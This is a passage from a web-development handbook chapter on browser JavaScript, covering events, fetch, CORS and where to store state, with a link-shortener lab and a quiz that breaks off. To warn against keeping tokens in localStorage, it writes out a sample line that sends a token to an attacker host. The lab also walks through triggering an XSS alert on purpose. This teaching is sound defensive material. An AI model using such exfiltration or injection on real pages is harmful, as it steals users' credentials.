




# 16.3 JavaScript in the browser: events, fetch and async

You've used pages that react without reloading: a "like" counter that ticks up, a form that says "that username is taken" while you type, a search box that suggests results. The HTML from [chapter 16.1](./how-a-page-works.mdx) describes a page, and the CSS from [chapter 16.2](./css-from-zero.mdx) styles it; neither can *do* anything when you click. **JavaScript** is the programming language every browser runs, and it's what turns a page into an application. This chapter teaches the slice of it you need to make a page react to people and talk to a server — and the rules the browser enforces on that conversation, which surprise everyone the first time a request that works in `curl` fails in the browser.

## What you'll learn

- The language basics, quickly: **values**, `let`/`const`, **functions**, **objects** and **arrays**, and **modules** — with the traps that catch people coming from other languages.
- The **event loop** in plain words: one thread runs your code, the page and every click, so long-running code freezes everything, and waiting is done with callbacks and promises instead.
- How to find and change elements in the **DOM** and react to **events** like clicks and form submits.
- How to call an API with **`fetch`**, **`async`/`await`** and **JSON** — and handle the three ways a request fails: no answer, a slow answer, and an error status.
- Why browsers enforce the **same-origin policy**, what **CORS** relaxes, and why an API that works from `curl` can be unreachable from a page.
- Where to keep state — memory, the URL, **localStorage**, **cookies** — and why a login token doesn't belong in localStorage.

---

## The language, in one sitting

JavaScript was created in 1995 for small scripts in web pages, and grew into one of the most used languages in the world, running servers (Node.js) and desktop apps as well as browsers. You can try every line in this section in the **Console** tab of DevTools ([chapter 16.1](./how-a-page-works.mdx)): type, press <kbd>Enter</kbd>, see the result.

### Values and variables

```js
const name = 'Zoë';            // a string; single or double quotes
let count = 3;                 // a number; let means it can be reassigned
count = count + 1;             // 4
const done = false;            // a boolean
let nothing = null;            // "deliberately empty"
let missing;                   // undefined: "never given a value"
const greeting = `Hi ${name}, you have ${count} books`;   // backticks allow ${…} inside
```

Use `const` by default and `let` only when the value must change. (Old code uses `var`, which has confusing scoping rules; don't write new code with it.)

Three traps worth knowing on day one:

- **There is one number type**, a 64-bit floating-point number, so `0.1 + 0.2` is `0.30000000000000004` ([chapter 1.3](../foundations/bits-bytes-text-formats.mdx) explains why, and why money is stored in whole cents). Whole numbers are exact only up to about 9 quadrillion (`Number.MAX_SAFE_INTEGER`, 2⁵³ − 1): a 64-bit database ID from a Go or Java backend above that silently changes when JavaScript parses it, which is why some APIs send large IDs as strings.
- **Use `===`, never `==`.** The double-equals converts types before comparing, so `0 == ''` and `'1' == 1` are both `true`. Triple-equals compares without conversion.
- **"Falsy" values.** In an `if`, the values `false`, `0`, `''` (empty string), `null`, `undefined` and `NaN` count as false; everything else counts as true. `if (count)` is false when the count is zero, which is sometimes not what you meant.

### Functions

```js
function add(a, b) {           // a function declaration
  return a + b;
}
const double = (n) => n * 2;   // an arrow function: shorter, common for small functions
add(2, 3);                     // 5
[1, 2, 3].map(double);         // [2, 4, 6]: functions are values, so you can pass them around
```

Passing a function to another function to be called later — a **callback** — is everywhere in browser code, because so much of it is "when *this* happens, run *that*".

### Objects and arrays

An **object** is a collection of named values; an **array** is an ordered list. Together they are exactly the shapes of JSON ([chapter 1.3](../foundations/bits-bytes-text-formats.mdx)), which is no accident: JSON is JavaScript Object Notation.

```js
const link = { slug: 'godoc', url: 'https://go.dev/doc/', clicks: 3 };
link.slug;                       // 'godoc'
link.clicks += 1;                // objects declared with const can still be changed inside
const { slug, url } = link;      // "destructuring": pull fields out into variables

const links = [link, { slug: 'mdn', url: 'https://developer.mozilla.org/', clicks: 0 }];
links.length;                                  // 2
links.filter((l) => l.clicks > 0);             // a new array: only links with clicks
links.map((l) => l.slug);                      // ['godoc', 'mdn']

link.owner?.name;                // optional chaining: undefined instead of an error if owner is missing
link.title ?? '(untitled)';      // ?? gives a fallback when the left side is null or undefined
```

`JSON.stringify(link)` turns an object into JSON text; `JSON.parse(text)` turns JSON text back into objects.

### Modules

A real app is many files. A **module** is a file that shares only what it **exports**, and takes from other modules what it **imports**:

```js
// format.js
export function shortLabel(link) {
  return `${link.slug} → ${link.url}`;
}
```

```js
// app.js
import { shortLabel } from './format.js';
```

The browser loads `app.js` as a module when the page says `<script type="module" src="app.js"></script>`. As [chapter 16.1](./how-a-page-works.mdx) showed, module scripts also download without blocking the parser and run once the document is parsed, like `defer`. Modules have their own scope, so their variables don't leak into the page, and they run in **strict mode**, which turns some silent mistakes into errors.

:::info[If you've written code]
Coming from Go: there are no static types (TypeScript adds them, and is where the next chapter goes), no integers separate from floats, objects are passed by reference like Go pointers, and errors are thrown and caught with `try`/`catch` rather than returned. Coming from Python: indentation means nothing, blocks use braces, and `null`/`undefined` are two different "nothing" values.
:::

---

## One thread, one queue: the event loop

Here is the most important fact about JavaScript in a browser: **your code runs on one thread, the page's main thread, and that same thread handles clicks, typing, scrolling and drawing the page.** While a piece of your code runs, nothing else on the page happens.



The browser keeps a queue of things to do. The **event loop** takes one task, runs its code to completion, gives the page a chance to redraw, and takes the next. A click puts a task in the queue; so does a timer going off, or a network response arriving.

Two consequences shape all browser code:

1. **Long-running code freezes the page.** A loop that takes two seconds means two seconds of a page that ignores every click and doesn't repaint. Browsers flag tasks over 50 milliseconds as **long tasks**; the performance chapter later in this part measures them. Heavy computation belongs in a **Web Worker**, a separate thread that can't touch the DOM.
2. **Waiting never blocks.** There is no way to "wait for the network" by pausing the thread. Instead, you *start* the request, hand over a function to run when it finishes, and your code returns at once. The browser does the network work outside your thread; when the answer arrives, it queues a task to run your function.

:::note[Everyday anchor]
A browser tab is a café with exactly one barista. Customers (clicks, network replies, timers) form a queue, and the barista serves one at a time, finishing each order before taking the next. If one order takes ten minutes, the whole queue waits, however small their orders. So the barista never stands at the oven waiting for a pastry: they put it in, set a timer, and serve the next customer; the timer's ring joins the queue.
:::

This is the opposite of Go's answer to the same problem. In Go ([chapter 4.5](../go/concurrency.mdx)), the runtime runs thousands of goroutines across all your CPU cores, so a goroutine can simply *block* waiting for the database while the others carry on. JavaScript in a page has one thread and must never block, so waiting is expressed as "do this later". Both serve many things at once; Go by having many workers, JavaScript by never letting its one worker stand idle.

### Promises and async/await

"Do this later" used to mean nesting callbacks inside callbacks. Today it means **promises**. A **promise** is an object standing for a value that isn't ready yet — like a restaurant buzzer that will go off when your order is ready. Functions that do slow work, like `fetch`, return a promise straight away.

The keyword `await`, used inside a function marked `async`, pauses *that function* until the promise settles and gives you its value — while the thread goes off and serves the rest of the queue:

```js
async function loadBooks() {
  console.log('1: asking');
  const res = await fetch('/books.json');   // this function pauses here; the page stays responsive
  console.log('3: answered', res.status);
  return res.json();                        // an async function always returns a promise
}
loadBooks();
console.log('2: carried on');               // runs before the answer arrives
```

The numbers show the order the lines print. If the promise fails (it **rejects**), `await` throws an error you catch with `try`/`catch`, the same as any other error.

---

## Finding elements and reacting to events

JavaScript sees the page as the DOM, the live tree of objects from [chapter 16.1](./how-a-page-works.mdx), through the global object `document`.

**Find elements** with CSS selectors, the same ones as in [chapter 16.2](./css-from-zero.mdx):

```js
const list = document.querySelector('#list ul');       // the first match, or null
const items = document.querySelectorAll('li');         // every match (a list you can loop over)
```

**Change them:**

```js
const li = document.createElement('li');               // a new element, not on the page yet
li.textContent = 'Clean Code';                         // set its text (always safe: treated as text)
list.append(li);                                       // add it to the page: the screen updates
li.classList.add('new');                               // add a class, so CSS can style it
li.remove();                                           // take it off again
```

:::danger[textContent, not innerHTML, for anything a user typed]
`element.innerHTML = '…'` parses the string as **HTML**. If that string contains anything a user or an API supplied, an attacker can supply `` and their script runs on your page as you, with access to everything your page can do. That is **cross-site scripting** (XSS, [chapter 7.5](../security/web-attacks.mdx)). `textContent` treats the string as plain text, always. Build elements with `createElement` and `textContent`; frameworks like React do this escaping for you.
:::

**React to events.** An **event** is the browser's notice that something happened: a click, a key press, a form submit, a page finishing loading. You subscribe with `addEventListener`, giving a callback that receives an **event object** describing what happened:

```js
const button = document.querySelector('button');
button.addEventListener('click', (event) => {
  console.log('clicked at', event.clientX, event.clientY);
});
```

Forms need one extra line. Left alone, submitting a form makes the browser send its own request and navigate away ([chapter 16.1](./how-a-page-works.mdx)). To handle it in JavaScript instead, stop that default:

```js
const form = document.querySelector('form');
form.addEventListener('submit', (event) => {
  event.preventDefault();                                // don't send the form and leave the page
  const title = form.elements.title.value.trim();        // read an input by its name
  // …do something with it
});
```

Listen for `submit` on the form, not `click` on the button: `submit` also fires when someone presses <kbd>Enter</kbd> in a field, and the browser's own checks (`required`, `type="url"`) run before it.

---

## Talking to a server: fetch, JSON and async

**`fetch`** sends an HTTP request ([chapter 1.5](../foundations/http-from-zero.mdx)) from your page and returns a promise of the response. Every part of a request you met in that chapter has a place in its options:

```js
const res = await fetch('/api/books', {
  method: 'POST',                                        // the method
  headers: {
    'Content-Type': 'application/json',                  // headers
    'Authorization': `Bearer ${token}`,
  },
  body: JSON.stringify({ title: 'Clean Code' }),         // the body, as JSON text
});
res.status;                     // 201: the status code
res.ok;                         // true for any 2xx status
res.headers.get('Location');    // a response header
const book = await res.json();  // read the body and parse it as JSON (also a promise)
```



### Three ways a request fails, and one that fools everyone

A network call can go wrong in more ways than a function call, and robust pages handle each:

1. **No answer at all.** The server is down, the Wi-Fi dropped, the name doesn't resolve, or the browser blocked the request (CORS, below). `fetch` **rejects** with a `TypeError` ("Failed to fetch" in Chrome, "NetworkError when attempting to fetch resource" in Firefox).
2. **A slow answer.** `fetch` has no timeout of its own and will wait as long as the browser does — minutes. Give it one with a **signal**: `AbortSignal.timeout(5000)` aborts the request after five seconds, and `fetch` rejects with an error named `TimeoutError`. For a request the user can cancel (they type a new search before the old one finishes), create an `AbortController`, pass its `signal`, and call `controller.abort()`.
3. **An error status.** And here is the one that fools everyone: **`fetch` does not reject on `404` or `500`.** A response arrived, so as far as `fetch` is concerned it succeeded. You must check `res.ok` (or `res.status`) yourself, then read the error body the API sent.

Put together, a careful call looks like this:

```js
async function postJSON(path, data, token) {
  let res;
  try {
    res = await fetch(path, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json', 'Authorization': `Bearer ${token}` },
      body: JSON.stringify(data),
      signal: AbortSignal.timeout(5000),               // give up after 5 seconds
    });
  } catch (err) {                                      // 1 and 2: no response at all
    if (err.name === 'TimeoutError') throw new Error('the server took too long to answer');
    throw new Error('could not reach the server');
  }
  const body = await res.json().catch(() => null);     // an error page may not be JSON
  if (!res.ok) {                                       // 3: a response, but an error status
    throw new Error(body?.error?.message ?? `the server answered ${res.status}`);
  }
  return body;
}
```

Which statuses deserve a retry follows from [chapter 1.5](../foundations/http-from-zero.mdx): a `4xx` means the request was wrong and will fail the same way again, so show the message; a timeout, a network error or a `503` may succeed later, but only retry a `POST` if the API makes it safe ([chapter 5.2](../apis/designing-rest-apis.mdx) on idempotency), or you may create the thing twice.

---

## The same-origin policy, and what CORS relaxes

Picture the browser without any rules. You're logged in to your bank in one tab. In another tab you open a page from a stranger, and its script runs `fetch('https://bank.example/api/accounts')`. Your browser attaches your bank cookies to that request, as it does to every request to the bank ([chapter 1.5](../foundations/http-from-zero.mdx)). If the script could then *read* the answer, any page on the internet could read your bank balance, your email and your messages.

That is why browsers enforce the **same-origin policy**: **a script may read responses only from its own origin.** An **origin** is the triple of scheme, host and port:

| Page | Request to | Same origin? |
|---|---|---|
| `https://app.example` | `https://app.example/api/links` | ✅ yes |
| `https://app.example` | `http://app.example/api/links` | ❌ different scheme |
| `https://app.example` | `https://api.app.example/links` | ❌ different host |
| `http://localhost:8000` | `http://localhost:8080/api/links` | ❌ different port |

The last row is the one that surprises developers: two programs on your own laptop are different origins.

**CORS** (Cross-Origin Resource Sharing) is how a server *opts out* for chosen origins. The browser adds an `Origin` header to cross-origin requests, and if the response carries `Access-Control-Allow-Origin: https://app.example`, the browser lets that origin's scripts read it. For requests that could do harm by merely being sent — anything with an `Authorization` header, a JSON `Content-Type`, or a method other than `GET`, `HEAD` and `POST` — the browser first sends a **preflight**: an `OPTIONS` request asking "would you accept a `POST` with these headers from this origin?". Only if the answer says yes does the real request go out.



Three things to keep straight, because people get them backwards:

- **The browser enforces CORS, not the server.** The server only states its policy in headers. `curl`, scripts and other servers ignore CORS completely, which is why the same request works in `curl` and fails in the page. CORS is not a way to protect an API ([chapter 7.5](../security/web-attacks.mdx)); authentication is.
- **A blocked request shows as a network error.** Your code sees the same `TypeError` as a dead server, on purpose: the page mustn't learn anything about a server it isn't allowed to talk to. The **Console** says plainly that CORS blocked it; the Network panel shows the failed preflight.
- **There are two ways to fix it.** Serve the page and the API from the **same origin** — usually a reverse proxy ([chapter 8.3](../distributed/reverse-proxies-and-nginx.mdx)) that sends `/api/` to the API and everything else to the page's files — and CORS never comes up. Or have the API send CORS headers naming exactly which origins may call it. Never "allow every origin" on an API that uses cookies; browsers forbid `*` with credentials, and echoing back whatever `Origin` arrives is the same mistake with extra steps.

---

## Where state lives: memory, the URL, storage and cookies

A page needs to remember things: what the user typed, which tab is open, who they are. Each place to keep it has a different lifetime and a different audience.

| Where | Lives until | Who can read it | Good for |
|---|---|---|---|
| A variable | the page reloads | your scripts | everything that's only needed now |
| The URL (`?q=…`, `#section`) | it's changed; survives sharing and bookmarks | anyone you send the link to | search terms, filters, the open tab |
| `sessionStorage` | the tab closes | any script on the same origin, in that tab | a form draft |
| `localStorage` | the user or your code clears it | **any script on the same origin** | preferences: theme, a dismissed banner |
| A cookie | its expiry date | the server, on every request; scripts too, unless **HttpOnly** | sessions |

`localStorage` is a small (about 5 MB per origin) key–value store of strings, with a two-line API:

```js
localStorage.setItem('theme', 'dark');
localStorage.getItem('theme');          // 'dark', still there after a reload or a restart
```

**It's the wrong place for a login token or an API key.** Anything in `localStorage` can be read by *every* script running on your origin: yours, your analytics provider's, an npm package your build pulled in, and any script an attacker manages to inject through an XSS bug. One `fetch('https://evil.example/?t=' + localStorage.getItem('token'))` and the token is gone, and it keeps working from the attacker's machine until it expires. An **HttpOnly** cookie ([chapter 7.2](../security/authentication.mdx)) can't be read by any script at all; the browser attaches it to requests itself, and `Secure` and `SameSite` limit where it's sent. That is why the common advice for browser apps is a session in an HttpOnly cookie, or a short-lived token kept only in memory.

:::info[In the real world]
Practice varies, and the debate is real. Many single-page apps do keep tokens in `localStorage` and lean on a strict Content-Security-Policy to keep injected scripts out; others use HttpOnly cookies plus CSRF defences ([chapter 7.5](../security/web-attacks.mdx)), or a small server-side "backend for frontend" that holds the tokens and gives the browser only a session cookie. What nobody recommends is keeping a **long-lived, full-power** credential where any script can read it.
:::

---

## What can go wrong in browser JavaScript

:::warning[What can go wrong]
- **Treating any response as success.** `fetch` resolves on `404` and `500`. Without a `res.ok` check, your code tries to show an error body as data, and the user sees `undefined`.
- **No timeout.** A request to a hung server leaves a spinner turning for minutes. Pass `AbortSignal.timeout()` to every `fetch` a person waits on.
- **"It works in curl but not in the browser."** Almost always CORS, or a cookie that isn't being sent. Read the Console first; it names the reason.
- **`innerHTML` with data.** Any string from a user or an API that reaches `innerHTML` is an XSS hole. Use `textContent`.
- **Freezing the page.** A big synchronous loop, or a huge `JSON.parse`, holds the one thread; clicks queue up and nothing repaints.
- **Secrets in the page.** Everything you ship to the browser — the code, its variables, its storage — can be read by the person using it. An API key embedded in your JavaScript is a published API key.
- **Forgetting `await`.** `const data = fetch(url)` gives you a promise, not a response; `data.status` is `undefined`, with no error to tell you why.
:::

---

## Apply it to snip: a page that shortens links

snip, the link shortener this handbook builds, has an HTTP API ([chapter 5.2](../apis/designing-rest-apis.mdx)) and no web interface. Creating a link is `POST /api/links` with a JSON body and an API key as a bearer token, answered `201 Created` with the new link, including the `short_url` a person actually wants. Here is a whole no-framework page that does it.

`snip.html` reuses the stylesheet from [chapter 16.2](./css-from-zero.mdx):

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Shorten a link</title>
    <link rel="stylesheet" href="style.css">
    <script type="module" src="snip.js"></script>
  </head>
  <body>
    <main>
      <article>
        <h1>Shorten a link</h1>
        <form id="shorten">
          <label for="key">API key</label>
          <input id="key" name="key" type="password" autocomplete="off" required>
          <label for="url">Long URL</label>
          <input id="url" name="url" type="url" placeholder="https://…" required>
          <button>Shorten</button>
        </form>
        <p id="out" role="status"></p>
      </article>
    </main>
  </body>
</html>
```

`snip.js` does the work: handle the submit, call the API carefully, and show the result with `textContent`, never `innerHTML`, because the URL came from a user:

```js
// Same origin: the page and the API are served from the same address. Change this to
// 'http://localhost:8080' to call snip across origins and watch CORS block it.
const API = '';

const form = document.querySelector('#shorten');
const out = document.querySelector('#out');

form.addEventListener('submit', async (event) => {
  event.preventDefault();                                  // handle it here; don't navigate
  const key = form.elements.key.value.trim();
  const url = form.elements.url.value.trim();
  out.className = 'result';                                // the card style from chapter 16.2
  out.textContent = 'Shortening…';
  try {
    show(await createLink(key, url));
  } catch (err) {
    out.textContent = err.message;
  }
});

async function createLink(key, url) {
  let res;
  try {
    res = await fetch(`${API}/api/links`, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json', 'Authorization': `Bearer ${key}` },
      body: JSON.stringify({ url }),
      signal: AbortSignal.timeout(5000),                   // give up after 5 seconds
    });
  } catch (err) {
    if (err.name === 'TimeoutError') throw new Error('snip took more than 5 seconds to answer');
    throw new Error('Could not reach snip (is it running? the Console says if CORS blocked it)');
  }
  const body = await res.json().catch(() => null);
  if (!res.ok) {                                           // 400, 401, 429 …: snip's error shape
    throw new Error(body?.error?.message ?? `snip answered ${res.status}`);
  }
  return body;                                             // {slug, url, clicks, created_at, short_url}
}

function show(link) {
  const a = document.createElement('a');
  a.href = link.short_url;
  a.textContent = link.short_url;
  const meta = document.createElement('span');
  meta.className = 'meta';
  meta.textContent = `→ ${link.url}`;
  out.replaceChildren(a, meta);                            // swap "Shortening…" for the result
}
```

Every failure from earlier has a home here. A wrong key comes back `401` with snip's one error shape, `{"error": {"code": "unauthorized", "message": "missing or invalid API key"}}` (written by `writeDomainError` in `snip/internal/httpapi/errors.go`), so the page shows *missing or invalid API key*. A URL snip refuses (`javascript:…`, for example) shows snip's `invalid_url` message; creating links too fast shows `rate_limited`'s. A stopped stack shows the network error, and a hung one the timeout.

### Why the page must share snip's origin

snip sends **no CORS headers at all**. Search `snip/internal/httpapi` and you'll find no `Access-Control-Allow-Origin`; its routes (in `server.go`) don't even include `OPTIONS`. Ask it a preflight question and it answers:

```text
HTTP/1.1 405 Method Not Allowed
Allow: GET, HEAD, POST
```

with no `Access-Control-Allow-Origin` header, so the browser refuses to send the real `POST`. That's deliberate, and the safe default for an API whose clients are scripts and command-line tools ([chapter 7.5](../security/web-attacks.mdx)): no other website's scripts can call it from a visitor's browser.

So a page on `http://localhost:8000` can't call snip on `http://localhost:8080`. The fix is the first one from the CORS section: put both behind one origin. In the lab, a small nginx serves your page's files and passes anything under `/api/` to snip, so to the browser the page and the API are one site:



This is the same pattern real frontends use: development servers like Vite have a proxy setting for exactly this, and in production a reverse proxy or CDN serves the app and routes `/api` to the backend ([chapter 8.3](../distributed/reverse-proxies-and-nginx.mdx)). The next chapters build snip's real UI on it.

One more judgment call: the page asks for the API key every time and keeps it only in a form field, never in `localStorage`. snip's API keys are long-lived and can create and delete every link their owner has, which is exactly the kind of credential that section warned about.

---

## Cheat sheet

| You want to… | Write |
|---|---|
| Find one element / all matches | `document.querySelector('sel')` / `document.querySelectorAll('sel')` |
| Show text safely | `el.textContent = value` (never `innerHTML` with data) |
| Make and add an element | `const li = document.createElement('li'); list.append(li);` |
| React to a click | `el.addEventListener('click', (e) => { … })` |
| Handle a form in JavaScript | `form.addEventListener('submit', (e) => { e.preventDefault(); … })` |
| Call a JSON API | `const res = await fetch(url, { method, headers, body: JSON.stringify(data) })` |
| Treat error statuses as errors | `if (!res.ok) { … }` |
| Give up after 5 seconds | `fetch(url, { signal: AbortSignal.timeout(5000) })` |
| Let the user cancel | `const c = new AbortController(); fetch(url, { signal: c.signal }); c.abort();` |
| Remember a preference | `localStorage.setItem('theme', 'dark')` (never a token) |
| Find out why a request failed | DevTools Console (CORS, errors) and Network (status, preflight) |

---

## Lab

Free, on your own computer. Steps 1–2 need only a browser; steps 3–5 use Docker and the snip stack from [chapter 9.3](../containers/docker-compose.mdx). Work in `~/code/frontend-lab` from the last two chapters.

1. **Feel the event loop.** Open DevTools' Console on any page and run:
   ```js
   console.log('A'); setTimeout(() => console.log('C'), 0); console.log('B');   // prints A, B, C
   ```
   `setTimeout(…, 0)` doesn't run "now": it queues a task, which waits until the current code finishes. Now freeze the page on purpose, then try to scroll or select text while it runs:
   ```js
   const end = Date.now() + 3000; while (Date.now() < end) {}   // busy-waits 3 seconds on the one thread
   ```
   Nothing responds for three seconds. That is what every long task does to your users.

2. **Change the DOM and handle the form.** Replace the contents of `app.js` from [chapter 16.1](./how-a-page-works.mdx) with:
   ```js
   const list = document.querySelector('#list ul');
   const form = document.querySelector('#suggest form');
   form.addEventListener('submit', (event) => {
     event.preventDefault();                          // stay on the page
     const li = document.createElement('li');
     li.textContent = form.elements.title.value.trim();
     list.append(li);
     form.reset();                                    // clear the input
   });
   ```
   Reload `index.html` and suggest a book: it appears in the list with no request and no reload. Then suggest the title ``. It shows up as text, harmlessly. Change `textContent` to `innerHTML`, reload, try again, and watch the alert fire: you've just built and exploited an XSS hole. Change it back.

3. **Start snip and get a key.**
   ```bash
   cd ~/code/zero-to-prod/snip
   docker compose up --build -d                                        # snip's stack; nginx answers on localhost:8080
   docker compose exec -T api snip keys create me | grep -o 'snip_[A-Za-z0-9]*'   # copy the key it prints
   ```
   Save the HTML and JavaScript from "Apply it to snip" above as `~/code/frontend-lab/snip.html` and `~/code/frontend-lab/snip.js`.

4. **Watch CORS block it.** Set `const API = 'http://localhost:8080';` in `snip.js`, then serve the folder from a different origin:
   ```bash
   cd ~/code/frontend-lab
   python3 -m http.server 8000           # the page is now on localhost:8000, the API on :8080
   ```
   Open `http://localhost:8000/snip.html` with DevTools open, paste your key and a URL, and press **Shorten**. The page says it couldn't reach snip. Notice that the Console names the real reason (a CORS error about the preflight and a missing `Access-Control-Allow-Origin`), and that the Network panel shows the failed `OPTIONS` request — and no `POST` at all. Then prove the API itself works:
   ```bash
   curl -s -X POST localhost:8080/api/links -H "Authorization: Bearer $KEY" \
     -H 'Content-Type: application/json' -d '{"url":"https://developer.mozilla.org/"}'   # 201: curl ignores CORS
   ```
   Stop the Python server with <kbd>Ctrl</kbd>+<kbd>C</kbd>.

5. **Serve it from one origin.** Set `const API = '';` back in `snip.js`. Save this as `~/code/frontend-lab/dev-proxy.conf`:
   ```nginx
   server {
     listen 80;
     root /usr/share/nginx/html;              # your lab files
     location /api/ {
       proxy_pass http://nginx;               # snip's own nginx, by its name on the stack's network
     }
   }
   ```
   and run a throwaway nginx on snip's Docker network, so it can reach snip by name:
   ```bash
   cd ~/code/frontend-lab
   docker run --rm -p 8000:80 --network snip_default \
     -v "$PWD":/usr/share/nginx/html:ro \
     -v "$PWD/dev-proxy.conf":/etc/nginx/conf.d/default.conf:ro \
     nginx:1.30-alpine                        # page and API, one origin: localhost:8000
   ```
   Open `http://localhost:8000/snip.html` and shorten a link. This time the card from [chapter 16.2](./css-from-zero.mdx) shows the short URL; click it and snip redirects you. In the Network panel, notice there's no `OPTIONS` row any more: a same-origin request needs no permission. Then try the failures and read what the page says:
   - a wrong key: snip's `401` message, *missing or invalid API key*;
   - the URL `javascript:alert(1)`: the browser's `type="url"` check lets it through (it is a well-formed URL), and snip's own check refuses it with its `invalid_url` message — the server-side validation [chapter 16.1](./how-a-page-works.mdx) said you can't skip;
   - `docker compose stop nginx` in snip's folder: the dev proxy can no longer reach snip and, after a few seconds of trying, answers for it with `502 Bad Gateway` ([chapter 8.3](../distributed/reverse-proxies-and-nginx.mdx)) — an HTML page, not JSON, which is why the code reads the body with `.catch(() => null)`. The page shows *snip answered 502*, or the five-second timeout message if the proxy is still trying when the page gives up.;
   - stop the dev proxy with <kbd>Ctrl</kbd>+<kbd>C</kbd> and submit once more from the open page: now nothing answers at all, and you get the network error.

   Run `docker compose down` in snip's folder when you're done.

## Self-check

<Quiz
  id="frontend-javascript-in-the-browser"
  questions={[
    {
      q: 'Your page calls fetch("/api/links/nope") and the server answers 404. What happens in your code?',
      options: [
        'fetch rejects with an error, so the catch block runs',
        'fetch resolves with a Response whose ok is false; you have to check it',
        'fetch retries the request automatically, then rejects',
        'fetch resolves with null, because there was no resource',
      ],
      answer: 1,
      explain: 'fetch only rejects when no response arrives at all: a network failure, an abort or a CORS block. A 404 is a perfectly good response, so the promise resolves and res.ok is false. Code that skips the check treats the error body as data. fetch never retries on its own.',
    },
    {
      q: 'A request to your API works in curl but fails from your page on localhost:3000 with "TypeError: Failed to fetch", and the Network panel shows an OPTIONS request with no POST after it. What would you check first?',
      options: [
        'Whether the API key in the page has expired',
        'The Console, for a CORS error: the preflight answer lacks Access-Control-Allow-Origin for your origin',
        'Whether the JSON body is valid, since a bad body makes the browser send OPTIONS instead',
        'Whether the server is down, since a TypeError means it could not be reached',
      ],
      answer: 1,
      explain: 'A lone OPTIONS is the browser’s preflight, sent because the request has an Authorization header or a JSON content type. If the answer doesn’t allow your origin, the browser never sends the POST and reports a TypeError that looks like a dead server on purpose; the Console names the real cause. curl works because it doesn’t enforce CORS. An expired key would produce a 401 response, not a missing request.',
    },
    {
      q: 'A button’s click handler runs a loop that takes two seconds. What do users experience?',
      options: [
        'Nothing unusual: the browser runs the loop on a background thread',
        'The page freezes: clicks, typing, scrolling and repainting all wait for the loop',
        'Only that button stops responding; the rest of the page carries on',
        'The browser kills the loop after 50 milliseconds as a long task',
      ],
      answer: 1,
      explain: 'Page JavaScript runs on the main thread, the same thread that handles input and drawing, and the event loop runs each task to completion. Browsers report tasks over 50 ms as long tasks but don’t stop them. Heavy work belongs in a Web Worker, which has its own thread. This is the opposite of Go, where a busy goroutine doesn’t stop the others.',
    },
    {
      q: 'Why is localStorage a poor place to keep a login token?',
      options: [
        'It is cleared every time the browser closes',
        'Any script running on the origin, including an injected one, can read it and send it away',
        'It is sent to the server with every request, like a cookie',
        'It can only hold numbers, so tokens get corrupted',
      ],
      answer: 1,
